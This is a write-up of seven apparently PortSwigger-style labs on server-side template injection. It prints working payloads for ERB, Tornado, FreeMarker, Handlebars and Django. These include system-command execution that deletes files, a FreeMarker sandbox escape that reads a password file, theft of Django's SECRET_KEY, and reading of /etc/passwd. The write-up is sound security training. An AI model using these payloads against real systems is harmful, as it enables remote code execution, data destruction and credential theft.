








# Server-Side Template Injection (SSTI) Walkthroughs

# **Lab 1: Basic server-side template injection**

This lab is vulnerable to server-side template injection. Our task is to delete the file `morale.txt` from Carlos’s home directory.

The ERB template engine is being used on the backend.

On the home page, I noticed that several products are listed. When I clicked on one of them, I encountered the error message: `"Unfortunately, this product is out of stock."` I observed that the value of the `message parameter` in the URL was reflected on the home page.

To check if this parameter is vulnerable to Server-Side Template Injection (SSTI), I used the payload `<%= 7*7 %>` and confirmed that it was indeed vulnerable to SSTI. I then used the payload `<%= system("rm -rf morale.txt") %>` to delete the file, successfully solved the lab. 

(For payload references, please check the GitHub repository '`PayloadsAllTheThings`'.)

# **Lab 2: Basic server-side template injection (code context)**

This lab, like the previous one, is vulnerable to Server-Side Template Injection (SSTI). To complete this lab, we need to delete the file named `morale.txt`. The Tornado template engine is being utilised in this scenario.

To solve the lab, I logged in using the provided credentials.

On the "My Account" page, I noticed a new functionality that allows users to select whether they want the site to display their full name, first name, or nickname. I changed my name accordingly. Then, on the homepage, I clicked on a post and added a comment, observing that the name I selected was reflected in the posted comment.

Next, I intercepted the request using Burp Suite and sent the `change-blog-post-author-display` request to the repeater. After trying multiple approaches to find the correct payload, I eventually arrived at a working solution. I used the following payload: `7*7}}{{os.system('rm -rf morale.txt')` to delete the file.

# **Lab 3: Server-side template injection using documentation**

In this lab, we need to delete the `morale.txt` file, but we are unsure which template engine is being used.

To solve the lab, I logged in using the provided credentials:

**Username:** content-manager  
**Password:** C0nt3ntM4n4g3r

After logging in, I navigated to the product description section, where I can edit content. I noticed that data is rendered using the `${}` format. I referred to the repository mentioned in Lab 1 and discovered that the template engine in use is Java's FreeMarker.

To confirm that it is vulnerable to Server-Side Template Injection (SSTI), I crafted and executed the following payload:

```

<#assign ex = "freemarker.template.utility.Execute"?new()>${ex("rm morale.txt")}

```

# **Lab 4: Server-side template injection in an unknown language with a documented exploit**

In this lab, we need to identify the template engine and delete the file named `"morale.txt."`

Similar to Lab 1, there is also a **message parameter** here, and the value of that parameter is reflected on the homepage.

I introduced the string `${{<%[%'"}}%` to trigger an error, which helped me determine that the template engine in use is **Handlebars**.

Referring to the repository, I utilized the following payload to complete the lab:

```

{{#with "s" as |string|}}
 {{#with "e"}}
  {{#with split as |conslist|}}
   {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
    {{#with string.split as |codelist|}}
    {{this.pop}}
    {{this.push "return require('child_process').execSync('rm morale.txt');"}}
    {{this.pop}}
    {{#each conslist}}
    {{#with (string.sub.apply 0 codelist)}}
    {{this}}
    {{/with}}
   {{/each}}
  {{/with}}
 {{/with}}
 {{/with}}
{{/with}}

```

# **Lab 5: Server-side template injection with information disclosure via user-supplied objects**

In this lab, by using SSTI, we have to steal the sensitive data (a secret key) and submit it.

I log in with the provided credentials:

`content-manager: C0nt3ntM4n4g3r`

I got the product description section where I can input payloads. 

First, I have to find out which template engine is being used on the backend.

To find that out, I used the fuzz string **`${{<%[%'"}}%\`** an error is generated from that error I determine that the **`Django template`** engine is used.

I refer to the repo and Django documentation. I crafted a payload:

```

{{settings.SECRET_KEY}}

````

to steal the secret key.

# **Lab 6: Server-side template injection in a sandboxed environment**

In this lab, we have already been given that the Freemarker template engine is used, and the sandbox is poorly implemented. Our task is to bypass the sandbox and find out the content of the `my_password.txt` file.

First, I log in using the provided credentials:

`content-manager: C0nt3ntM4n4g3r`

Then I referred to the repo and crafted the payload to print the content of the file.

```python
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}
````

# **Lab 7: Server-side template injection with a custom exploit**

In this lab, we have to create a custom exploit to delete the file **`/.ssh/id_rsa`** from Carlos’s home directory.

I log in with the provided credentials:

`wiener: peter`

On my account page, I noticed two functionalities: one to change the user's preferred name and another to change the avatar. We already know that, like the previous lab, the user-preferred name is vulnerable to SSTI.

I went to the home page, commented on a post, and uploaded an invalid image. This triggered an error that disclosed the method name **`user.setAvatar()`** and the file path **`/home/carlos/User.php`**.

In the Burp repeater, I opened the post request for changing the preferred name and set the value of the **`blog-post-author-display`** parameter to:

```
user.setAvatar('/etc/passwd', 'image/jpg')
```

Also, we need to provide the image MIME type argument with the file path.

To check that the file is set, I reload the page where I posted a comment. and to read the file, I go to:

```
GET /avatar?avatar=wiener
```

and load it. The file content is visible.



Now, I know that I got the file path from the error. I have done the same process to read the content of that file. After reading the **`/home/carlos/User.php`** file, I have found that to delete a file, it uses the **`gdprDelete()`** method.



Now, I have set the file **`/.ssh/id_rsa`** that I have to delete to solve the lab.





and reload the posted comment page, and call the method:

```
user.gdprDelete()
```

to delete the file.



Now, I have done the same process to confirm the file is deleted.




```